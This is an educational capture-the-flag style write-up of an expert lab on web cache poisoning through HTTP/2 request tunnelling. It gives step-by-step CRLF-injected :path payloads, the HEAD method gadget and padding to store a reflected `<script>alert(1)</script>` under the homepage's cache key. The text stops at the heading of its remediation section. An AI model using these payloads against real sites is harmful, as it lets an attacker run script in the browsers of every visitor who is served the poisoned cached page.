## Challenge Overview
* **Challenge name**: Web cache poisoning via HTTP/2 request tunnelling
* **Category**: HTTP Request Smuggling
* **Level**: Expert
* **Objective**: Poison the cache in such a way that when the victim visits the home page, their browser executes `alert(1)`. A victim user will visit the home page every 15 seconds.

---

## 1. Fundamental Concepts

### 1.1 HTTP/2 Downgrading & The Architectural Impedance Mismatch
In modern enterprise architectures, Edge proxies (Load Balancers, Reverse Proxies, CDNs) negotiate **HTTP/2** with client browsers over TLS. To reduce operational complexity in internal microservices, the front-end frequently translates and downgrades incoming requests to **HTTP/1.1** before dispatching them downstream.

This protocol translation introduces an **Architectural Impedance Mismatch**:
* **HTTP/2** relies on binary framing. Frames (`HEADERS`, `DATA`) have explicit length boundaries, rendering delimiters like `\r\n` (CRLF) semantically inert.
* **HTTP/1.1** relies entirely on ASCII text parsing, where `\r\n` defines line terminations, and `\r\n\r\n` defines the end of headers.

When a front-end server fails to sanitize control characters during translation, arbitrary CRLF sequences injected into binary frames are serialized directly into the plain-text HTTP/1.1 stream, allowing an attacker to manipulate downstream request framing.

### 1.2 The Anatomy of "Request Tunnelling" vs "Classic Request Smuggling"
In **Classic HTTP Request Smuggling** (e.g., CL.TE or TE.CL):
* The front-end maintains a **shared connection pool** to the back-end. Multiple unrelated client requests reuse the same underlying TCP socket.
* An attacker injects a smuggled prefix that sits in the back-end socket buffer, corrupting the subsequent request of another client (*Cross-user Desynchronization*).

In **Request Tunnelling**:
* The front-end enforces a **1:1 dedicated connection lifecycle**—each client connection maintains its own isolated socket to the back-end, and connections are never shared across distinct users.
* Because back-end connections are isolated, cross-user socket poisoning is impossible.
* However, if an attacker injects a secondary HTTP/1.1 request down their **own** dedicated channel (the "tunnel"), the back-end processes two requests in sequence on that single socket. The vulnerability then shifts to how the front-end or caching layer handles the secondary response.

### 1.3 Web Caching Mechanics & The Cache Key Alignment
A Web Cache stores responses to reduce server load and latency. When a request arrives, the Cache Engine computes a **Cache Key** (typically composed of the HTTP Method, Host header, and Request Path, e.g., `GET /`).
* If a response is cacheable (e.g., `Cache-Control: max-age=30`), the Cache Engine binds the response body received from the back-end socket to that Cache Key.
* In **Web Cache Poisoning via Request Tunnelling**, an attacker tricks the front-end into caching the response of the *smuggled (tunnelled)* request under the Cache Key of the *outer* request (e.g., the public homepage `/`). Once cached, every visitor requesting the homepage receives the malicious payload.

---

## 2. Attack Model & Architecture

### 2.1 The Vulnerability: CRLF Injection in the `:path` Pseudo-Header
Unlike traditional request smuggling that manipulates standard headers, this attack targets the HTTP/2 `:path` pseudo-header.
When the front-end translates an HTTP/2 request into HTTP/1.1, it reconstructs the HTTP/1.1 Request-Line using the `:path` value:
```text
"GET " + :path + " HTTP/1.1\r\n"
```

If the front-end parser does not enforce RFC 9113 validation on `:path`, an attacker can inject:
```http
:path = /?cb=1 HTTP/1.1\r\nHost: target\r\n\r\nGET /smuggled HTTP/1.1\r\nFoo: bar
```

When rewritten by the front-end, the downgraded stream becomes:
```http
GET /?cb=1 HTTP/1.1
Host: target

GET /smuggled HTTP/1.1
Foo: bar HTTP/1.1
```
* Notice the trailing `Foo: bar` header: It captures the trailing ` HTTP/1.1\r\n` automatically appended by the front-end, preserving valid HTTP/1.1 syntax for the second request.

### 2.2 The `HEAD` Method Gadget
How does an attacker force the front-end cache to store the response of the second request instead of the first?
* When an HTTP client sends a `HEAD` request, the server returns the response headers that would accompany a `GET` request, but **without a response body**.
* By setting `:method` to `HEAD` on the outer request:
  1. The back-end handles the outer `HEAD /` request $\rightarrow$ returns HTTP headers, **0 body bytes**.
  2. The back-end immediately processes the queued tunnelled request (`GET /smuggled`) $\rightarrow$ returns headers **and response body**.
  3. The front-end expects to read a response matching the `Content-Length` of the outer request. It reads the data off the socket, mistakenly interpreting the response of the tunnelled request as the body of the outer request!
  4. The Cache Engine stores this tunnelled response under the Cache Key of the outer request (`GET /`).

### 2.3 The Content-Length Trap & Padding Requirement
* A normal `GET /` or `HEAD /` response for the homepage has a large `Content-Length` (e.g., **8,634 bytes**).
* An unencoded redirect or error endpoint (our XSS gadget) typically returns only **~300 bytes**.
* If the tunnelled response body is smaller than the expected `Content-Length`, the front-end halts and waits for the remaining bytes to arrive until a socket timeout occurs (`500 Server Error: Communication timed out`).
* **The Solution:** The attacker must pad the query string of the tunnelled request with thousands of dummy characters (`AAAA...`) so that the reflected response body equals or exceeds the expected `8,634 bytes`.

### 2.4 Attack Workflow & Data Flow Diagram

```text
========================================================================================
PHASE 1: REQUEST TUNNELLING VIA HEAD & CACHE POISONING WITH PADDING
========================================================================================
[Attacker]
    │
    │ (1) Sends HTTP/2 Request with Injected :path & HEAD Method:
    │     :method: HEAD
    │     :path: / HTTP/1.1\r\nHost: target\r\n\r\n
    │            GET /resources?<script>alert(1)</script>AAA...[8.7KB] HTTP/1.1\r\nFoo: bar
    ▼
[Front-end Proxy & Cache] (Translates HTTP/2 to HTTP/1.1 Stream)
    │ Rewrites to downstream socket containing 2 chained HTTP/1.1 requests:
    │   Request #1: HEAD / HTTP/1.1
    │   Request #2: GET /resources?<script>alert(1)</script>AAA...[8.7KB] HTTP/1.1
    ▼
[Back-end Server] (Processes Requests in FIFO Sequence on 1:1 Socket)
    │ 1. Evaluates HEAD / --> Returns 200 OK headers (0 body bytes for HEAD)
    │ 2. Reads second request directly from socket buffer:
    │    GET /resources?<script>alert(1)</script>AAA...[8.7KB] HTTP/1.1
    │    Returns 302 Found redirect with reflected XSS + ~8.7KB body padding
    ▼
[Front-end Proxy & Cache Engine]
    │ Front-end reads backend stream expecting ~8.6KB for HEAD /
    │ Consumes the ~8.7KB padded 302 response as the body of the outer request!
    │ Commits this malicious payload to Cache Key [GET /] (max-age=30)
    ▼
[Cache Status: Poisoned with XSS Redirect!]

========================================================================================
PHASE 2: VICTIM ACCESSES HOMEPAGE & EXECUTES STORED XSS
========================================================================================
[Victim User / Bot] (Accesses Homepage every 15s)
    │
    │ (2) Dispatches GET / HTTP/2
    ▼
[Front-end Proxy & Cache Engine]
    │ Evaluates Cache Key [GET /] --> Cache HIT!
    │ Serves stored poisoned 302 Redirect containing unescaped <script>alert(1)</script>
    ▼
[Victim Browser]
    │ Parses poisoned HTML / Location header
    │ Executes alert(1) in victim's context
    ▼
[Result: Stored XSS Triggered & Lab Solved!]
```

---

## 3. Step-by-Step Exploitation (PoC)

### 3.1. Phase 1: Identifying Active Caching Behavior
1. Capture a baseline request `GET /` in Burp Suite and send it to **Repeater**. Ensure the protocol is set to **HTTP/2**.
2. Send the request and examine the response headers:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 8634
```



3. Send the request a second time within 30 seconds. The headers confirm active caching:
```http
Age: 8
X-Cache: hit
```



> **Key Observation:** The caching layer uses a 30-second TTL (`max-age=30`) and exposes cache status via `X-Cache` (`hit`/`miss`) and `Age`.

---

### 3.2. Phase 2: Probing CRLF Injection in `:path`
We probe whether the front-end validates newlines within `:path`.
1. In Burp Repeater, open the **Inspector** panel.
2. Select the **`:path`** pseudo-header.
3. Use a cachebuster query parameter to avoid poisoning the shared cache prematurely. Enter the path and press **`Shift + Enter`** to insert a literal newline (`\n` / `\r\n`):
```text
/?cachebuster=998877 HTTP/1.1
Foo: bar
```



4. Send the request. The server returns `HTTP/2 200 OK` with `X-Cache: miss`.
   * **Why this works:** When downgraded, the front-end serializes:
     `GET /?cachebuster=998877 HTTP/1.1\r\nFoo: bar HTTP/1.1\r\n`
     The trailing `HTTP/1.1` appended by the proxy becomes the value of the `Foo` header, preserving valid HTTP/1.1 Request-Line syntax.

---

### 3.3. Phase 3: Verifying Request Tunnelling via `HEAD` Method
Now, we leverage the `HEAD` method to tunnel a request for a blog post (`/post?postId=1`) to confirm that the secondary response can be retrieved.

1. In the **Inspector**, change the pseudo-header `:method` to **`HEAD`**.
2. Set `:path` to:
```http
/?cachebuster=2 HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net

GET /post?postId=1 HTTP/1.1
Foo: bar
```



3. For reference, visiting `/post?postId=1` directly renders the article titled *"Don't Believe Everything You Read"*:



4. Send the tunnelled request in Repeater. The response body now returns the HTML content of `/post?postId=1`:



5. Now remove `?cachebuster=2` from `:path` to test whether the live homepage can be poisoned:
```http
/ HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net

GET /post?postId=1 HTTP/1.1
Foo: bar
```



6. Send the request. The public homepage `/` is now poisoned: any user visiting the homepage is served the article for `postId=1`!



---

### 3.4. Phase 4: Discovering the XSS Reflection Gadget
To solve the lab, we must execute `alert(1)` on the victim's browser. We need an endpoint that reflects unencoded input.

1. Send `GET /resources HTTP/2`. The server returns a `302 Found` redirecting to `/resources/`:



2. Test if query parameters are reflected unescaped:
```http
GET /resources?<script>alert(1)</script> HTTP/2
```
3. The response reflects the unescaped script tag in the `Location` header:
```http
HTTP/2 302 Found
Location: /resources/?<script>alert(1)</script>
```



---

### 3.5. Phase 5: Solving the Content-Length Mismatch (Padding)
We attempt to tunnel the XSS payload into `/?cachebuster=3`:

1. Configure `:path` in the Inspector:
```http
/?cachebuster=3 HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net

GET /resources?<script>alert(1)</script> HTTP/1.1
Foo: bar
```



2. Send the request. The request hangs and eventually fails with:
```http
HTTP/2 500 Internal Server Error
Server Error: Proxy error
Server Error: Communication timed out
```



> **Root Cause Analysis:** The outer request (`HEAD /`) expects **8,634 bytes** (the size of the homepage). However, the tunnelled `302 Found` response is only ~300 bytes. The front-end holds the socket open waiting for the missing ~8,300 bytes until the connection times out.

3. **Remediation via Padding:** Pad the query string with approximately **8,700 `A`s** immediately following `</script>`:
```http
/?cachebuster=3 HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net

GET /resources?<script>alert(1)</script>AAAAAA...[8,700 A's] HTTP/1.1
Foo: bar
```



4. Send the padded request. The response returns immediately with `HTTP/2 200 OK` (`Content-Length: 8634`), with the tunnelled `302 Found` containing the XSS payload nested inside:



---

### 3.6. Phase 6: Executing the Live Cache Poisoning Attack
With the exploit validated in isolation, we target the live homepage:

1. In the **Inspector**, remove `?cachebuster=3` from `:path`, leaving only `/`:
```http
/ HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net

GET /resources?<script>alert(1)</script>AAAAAA...[8,700 A's] HTTP/1.1
Foo: bar
```



2. Send the request repeatedly every 5 seconds to ensure that whenever the 30-second cache expires, it is immediately re-poisoned:



3. Within 15 seconds, the automated victim crawler accesses the homepage `/`, loads the poisoned response from the cache, executes `alert(1)`, and completes the lab.



---

## 4. Remediation & Defense Strategies

### 4.1 Strict Pseudo-Header Validation (RFC 9113 Compliance)
